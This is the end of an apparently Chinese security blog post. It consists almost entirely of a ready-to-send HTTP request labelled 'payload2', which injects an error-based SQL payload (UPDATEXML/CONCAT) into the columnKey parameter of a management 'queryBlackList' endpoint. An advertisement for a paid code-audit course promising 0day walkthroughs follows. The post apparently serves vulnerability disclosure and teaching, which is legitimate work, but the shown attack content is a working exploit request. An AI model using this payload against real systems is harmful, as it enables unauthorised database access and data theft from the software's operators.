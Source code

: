 payload2  
```
GET /manage/systemBlackList/queryBlackList.do?recoToken=ZuZBOrvLG8M&page=1&pageSize=10&order=asc&columnKey=(UPDATEXML(2920,CONCAT(0x2e,0x71716a7071,(SELECT+(ELT(2920=2920,1))),0x71706b7671),8357)) HTTP/1.1Host: xUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedAccept: */*Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGW6j0sU2zFkESARJePZpD5qCe7BetvXuph1xGWZzTR2hGO9XMHRTYdgg/640?wx_fmt=png&from=appmsg "")  
## 完结  
  
  
代码审计第四期，富含PHP、JAVA、NET代码审计，顺带APP、小程序、WEB当中参数逆向以及JAVA工具二开与SRC案例讲解，其中多多0day讲解，实战案例分析，不拿着靶场去做，想学习速速报名了。  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhUicibrBmrZ2iazoDJic2RyDklw4547e6aNia1OEMntI6wGqRdvr87XVgUdiaiczwW67bRO3iayvd7H7bZoeQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ZRKuxIKRyhXhuxbCGecu4ibia3kSXD8ePQHrSvPSNtC7PmjzQwR88Hu0LpuXdQzamKBCPAXX82anLS8f0FF3LzzQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
  

